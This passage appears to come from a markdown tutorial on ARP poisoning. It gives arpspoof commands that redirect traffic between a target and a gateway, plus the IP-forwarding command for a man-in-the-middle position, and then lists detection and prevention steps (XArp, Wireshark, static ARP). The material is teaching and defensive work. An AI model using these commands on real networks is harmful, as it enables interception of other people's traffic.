 ````bash
sudo apt install dnssniff
arpspoof -i <interface> -t <target-ip> <router-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
````

The target device will not have access to the internet after running the above commands as our device is not an router and does not forward packets.  
Port Forwarding can be enabled using following command: `echo 1 > /proc/sys/net/ipv4/ip_forward`

---

### Prevention

1. <u>ARP Poisoning</u>  
Manually check the ARP table for duplicate MAC Addresses  
Xarp : Application used to automatically detect ARP poisoning

2. <u>Detect ARP Storm/ Poisoning</u>  
Wireshark - Protocol - ARP - Detect ARP Request Storm  
Analyze - Expert Information  
Alternate approach is to define Static ARP
